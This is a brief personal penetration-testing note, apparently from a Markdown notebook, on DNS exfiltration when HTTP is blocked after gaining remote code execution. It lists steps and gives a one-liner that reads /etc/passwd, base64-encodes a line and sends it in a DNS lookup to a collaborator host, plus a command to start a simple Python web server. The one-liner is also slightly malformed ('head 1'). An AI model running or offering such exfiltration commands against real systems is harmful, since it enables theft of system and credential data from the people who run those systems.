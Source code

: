 # Exfiltration
Tags: #dns #firewall #waf
Related to: [[DNS]]
See also:
Previous:

## Links

## Notes
### DNS exfiltration when HTTP blocked
If you are able to do RCE on a target but can't exfil over HTTP:
- read content from file
- Use head to get a line
- b64 encode
- Make a DNS request to collaborator or a server you control
`EXFIL=$(cat /etc/passwd | head 1 | base64); curl $EXFIL.collaborator.com`

### Python simple server
`python3 -m http.server 1337`